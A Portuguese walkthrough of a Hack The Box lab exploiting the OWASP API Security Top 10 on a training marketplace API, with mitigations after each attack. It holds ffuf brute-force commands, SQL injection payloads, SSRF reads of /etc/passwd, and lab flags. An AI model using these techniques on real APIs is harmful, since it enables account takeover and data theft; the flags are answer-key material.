Exploração completa do OWASP API Security Top 10 em uma API RESTful multilocatário com RBAC. Cada seção cobre um risco diferente, com cenário prático, técnica de exploração e mitigação.
As APIs são fundamentais para o desenvolvimento de software moderno, servindo como pontes de comunicação entre sistemas. Neste módulo, exploramos uma API RESTful multilocatário com RBAC — o Inlanefreight E-Commerce Marketplace — identificando e explorando cada um dos 10 principais riscos do OWASP API Security Top 10.
O marketplace utiliza Role-Based Access Control (RBAC) — as roles compartilham o mesmo nome dos endpoints que autorizam. Contas @pentestercompany.com são fornecedores; contas @hackthebox.com são clientes. A API é acessível via interface Swagger em /swagger.

| ID | Risco |
|---|---|
| API1:2023 | Broken Object Level Authorization — acesso a objetos não autorizados |
| API2:2023 | Broken Authentication — mecanismos contornáveis |
| API3:2023 | Broken Object Property Level Authorization — exposição/manipulação indevida de propriedades |
| API4:2023 | Unrestricted Resource Consumption — sem limitação de recursos |
| API5:2023 | Broken Function Level Authorization — funções acessíveis por não-autorizados |
| API6:2023 | Unrestricted Access to Sensitive Business Flows — fluxos críticos expostos |
| API7:2023 | Server Side Request Forgery — requisições maliciosas a recursos internos |
| API8:2023 | Security Misconfiguration — SQLi, CORS, headers inseguros |
| API9:2023 | Improper Inventory Management — versões antigas acessíveis |
| API10:2023 | Unsafe Consumption of APIs — confiança cega em APIs de terceiros |
Um endpoint é vulnerável a BOLA (Broken Object Level Authorization), também conhecido como IDOR, quando não verifica corretamente se o usuário autenticado tem permissão para acessar o objeto específico solicitado.
Credenciais: htbpentester1@pentestercompany.com:HTBPentester1. Após autenticar e obter o JWT, inspecionamos nossas roles via /api/v1/roles/current-user — obtemos a role SupplierCompanies_GetYearlyReportByID.

O endpoint /api/v1/supplier-companies/yearly-reports/{ID} aceita um inteiro como ID. Ao usar ID=1, recebemos o relatório anual de uma empresa diferente da nossa — confirmando o BOLA.

Implementar verificação de autorização no nível do objeto — garantir que o usuário autenticado seja dono ou tenha permissão explícita para o recurso solicitado antes de retornar dados.
A API sofre de Broken Authentication quando seus mecanismos de autenticação podem ser contornados ou quando não implementa rate-limiting nas tentativas de login.
Credenciais: htbpentester3@hackthebox.com:HTBPentester3. Ao atualizar a senha via PATCH /api/v1/customers/current-user, descobrimos que a API aceita senhas de apenas 6 caracteres. Essa política fraca sugere que outros usuários podem ter senhas simples.

Usando ffuf com duas wordlists (emails e senhas) contra /api/v1/authentication/customers/sign-in:
bash$ ffuf -w emails.txt:EMAIL -w xato-net-10-million-passwords-10000.txt:PASS \
-u http://TARGET/api/v1/authentication/customers/sign-in \
-X POST -H 'Content-Type: application/json' \
-d '{"email":"EMAIL","password":"PASS"}' \
-fr "Invalid Credentials"

Implementar rate-limiting nas tentativas de autenticação, exigir senhas criptograficamente seguras (mínimo 12 caracteres com complexidade) e considerar bloqueio temporário após N tentativas falhas.
Esta categoria cobre duas subclasses: Excessive Data Exposure (API retorna campos sensíveis que não deveria) e Mass Assignment (usuário manipula propriedades que não deveria).
Credenciais: htbpentester4@hackthebox.com:HTBPentester4. O endpoint GET /api/v1/suppliers retorna email e phoneNumber dos fornecedores para clientes — dados que permitem contato direto, bypassando o marketplace e causando perda de receita.
Credenciais: htbpentester6@pentestercompany.com:HTBPentester6. O endpoint de atualização aceita campos que não deveriam ser modificáveis pelo usuário — permitindo alteração de propriedades privilegiadas como roles ou IDs de empresa.
Usar DTOs (Data Transfer Objects) específicos para cada operação, retornando apenas os campos necessários. Nunca expor o modelo de domínio diretamente. Usar allowlists de campos aceitos nas requisições.
A API é vulnerável quando não limita o consumo de recursos como bandwidth, CPU, memória ou armazenamento.
Credenciais: htbpentester8@pentestercompany.com:HTBPentester8. O endpoint POST /api/v1/supplier-companies/certificates-of-incorporation aceita PDFs sem validar tamanho ou tipo de arquivo.
bash# Criando arquivo de 30MB com bytes aleatórios
$ dd if=/dev/urandom of=certificateOfIncorporation.pdf bs=1M count=30
30+0 records out | 31457280 bytes (30 MiB) copied
# Upload de executável malicioso
$ dd if=/dev/urandom of=reverse-shell.exe bs=1M count=10
10+0 records out | 10485760 bytes (10 MiB) copied
Ambos os uploads foram aceitos — sem validação de tamanho ou extensão. Arquivos ficam armazenados em wwwroot/SupplierCompaniesCertificatesOfIncorporations, podendo ser executados via engenharia social.
Validar tamanho máximo de upload, extensões permitidas (allowlist), tipo MIME real do arquivo, e implementar rate-limiting por usuário. Nunca armazenar arquivos em diretórios web-acessíveis sem sanitização.
Diferente do BOLA, no BFLA o usuário não deveria ter acesso ao endpoint — mas a verificação de autorização não foi implementada no código.
Credenciais: htbpentester9@hackthebox.com:HTBPentester9. O endpoint GET /api/v1/products/discounts requer a role ProductDiscounts_GetAll. Nosso usuário não possui nenhuma role atribuída — mas ao invocar o endpoint, recebemos todos os dados de desconto de produtos.
No BOLA, o usuário está autorizado a usar o endpoint mas acessa objetos de outros. No BFLA, o usuário não deveria ter acesso ao endpoint em nenhuma circunstância.
bash$ curl -X 'GET' 'http://TARGET/api/v1/customers/billing-addresses' \
-H 'Authorization: Bearer JWT_TOKEN' | jq | grep HTB
"street": "HTB{1e2095c564baf0d2d316080217040dae}"
A exposição de dados de desconto (via BFLA) também leva a Unrestricted Access to Sensitive Business Flows — conhecendo datas e percentuais de desconto, é possível comprar todo o estoque no início do período e revender após o término.
bash# Identificando endereço de usuário específico via BFLA
$ curl 'http://TARGET/api/v1/customers/billing-addresses' \
-H 'Authorization: Bearer JWT' | grep 'daa8c984'
{"customerID":"daa8c984...","city":"Glasgow","country":"UK",
"street":"788 Sauchiehall St.","postalCode":63103}
A API é vulnerável a SSRF quando utiliza entrada controlada pelo usuário para buscar recursos sem validação — permitindo acesso a recursos internos ou arquivos locais do servidor.
Credenciais: htbpentester10@pentestercompany.com:HTBPentester10. Após fazer upload de um PDF via POST /api/v1/supplier-companies/certificates-of-incorporation, a resposta retorna o campo fileURI com o esquema file://.

O endpoint PATCH /api/v1/supplier-companies permite modificar o campo CertificateOfIncorporationPDFFileURI. Apontamos para /etc/passwd:
bash# Atualiza o URI para apontar para arquivo interno
PATCH /api/v1/supplier-companies
{"CertificateOfIncorporationPDFFileURI": "file:///etc/passwd"}
# Leitura do arquivo via endpoint de certificado
GET /api/v1/supplier-companies/{ID}/certificates-of-incorporation
# → retorna conteúdo do /etc/passwd
APIs sofrem de Security Misconfiguration quando aceitam entrada do usuário sem sanitização em comandos SQL, ou quando não configuram adequadamente headers de segurança HTTP.
Credenciais: htbpentester12@pentestercompany.com:HTBPentester12. O endpoint GET /api/v1/products/{Name}/count é vulnerável quando o parâmetro contém um apóstrofo:
bash# Teste básico — retorna erro com apóstrofo
GET /api/v1/products/laptop'/count
# Payload de SQLi — retorna total de 720 produtos
GET /api/v1/products/laptop' OR 1=1 --/count
Usar consultas parametrizadas ou ORMs. Validar e sanitizar toda entrada do usuário. Implementar headers de segurança HTTP (CORS restritivo, CSP, etc.) conforme o OWASP Secure Headers Project.
Versões antigas de API sem manutenção representam vetores de ataque quando permanecem acessíveis em produção.
Na interface Swagger, identificamos a existência de uma versão v0 descrita como "dados legados que deveriam ser removidos". Nenhum endpoint da v0 exige autenticação:
bash# Dados de clientes deletados — incluindo hashes de senha!
GET /api/v0/customers/deleted
# → retorna registros com passwordHash expostos
# Lab prático — empresa deletada por ID
$ curl 'http://TARGET/api/v0/supplier-companies/deleted' | \
jq '.[] | select(.ID == "c250cb38-...")'
{
"ID": "c250cb38-96e3-4ccf-9df2-0a03146a2d0b",
"Name": "Hack The Box",
"Email": "HTB{43c2754afea99eba70fb2c8dc443c660}"
}

APIs que consomem outras APIs sem validação adequada podem ser comprometidas por dados maliciosos propagados através da cadeia de serviços.
bash# Lab — fornecedor deletado com dados expostos
$ curl 'http://TARGET/api/v0/suppliers/deleted' | \
jq '.[] | select(.Name == "Yara MacDonald")'
{
"Name": "Yara MacDonald",
"Email": "Y.MacDonald1406@cyberneticsolutions.com",
"PasswordHash": "006006C3167E90A7575A12E474218D86"
}
O administrador tentou corrigir todas as vulnerabilidades na v2, mas novos desenvolvedores introduziram novas falhas. O objetivo é comprometer a v2 aplicando tudo que foi aprendido.
Credenciais iniciais: htbpentester@hackthebox.com:HTBPentester. Roles: Suppliers_Get e Suppliers_GetAll.
O endpoint GET /api/v2/suppliers/ retorna campos sensíveis além do necessário — incluindo securityQuestion de cada fornecedor. Identificamos que várias contas usam a mesma pergunta: "What is your favorite color?"

Identificamos um endpoint de reset de senha via resposta de segurança: POST /api/v2/authentication/suppliers/passwords/resets/security-question-answers.
bash# Força bruta com emails e lista de cores
$ ffuf -w emails.txt:EMAIL -w colors.txt:COLOR \
-u http://TARGET/api/v2/authentication/suppliers/passwords/resets/security-question-answers \
-X POST -H 'Content-Type: application/json' \
-d '{"SupplierEmail":"EMAIL","SecurityQuestionAnswer":"COLOR","NewPassword":"123456"}' \
-fr "false"
[Status: 200]
* EMAIL: B.Rogers1535@globalsolutions.com
* COLOR: rust

Com acesso como B.Rogers1535, analisamos os endpoints disponíveis e identificamos o campo professionalCVPDFFileURI — padrão SSRF similar ao API7.

bash# 1. Upload de PDF legítimo
POST /api/v2/suppliers/current-user/cv
# 2. Atualiza o URI para apontar para a flag
PATCH /api/v2/suppliers/current-user
{"ProfessionalCVPDFFileURI": "file:///flag.txt", ...}
# 3. Lê o arquivo via endpoint de CV
GET /api/v2/suppliers/current-user/cv
{"base64Data": "SFRCe2YxOTBiODBjZDU0M2E4NGIyMzZlOTJhMDdhOWQ4ZDU5fQo="}


bash$ echo SFRCe2YxOTBiODBjZDU0M2E4NGIyMzZlOTJhMDdhOWQ4ZDU5fQo= | base64 -d
HTB{f190b80cd543a84b236e92a07a9d8d59}

HTB{f190b80cd543a84b236e92a07a9d8d59}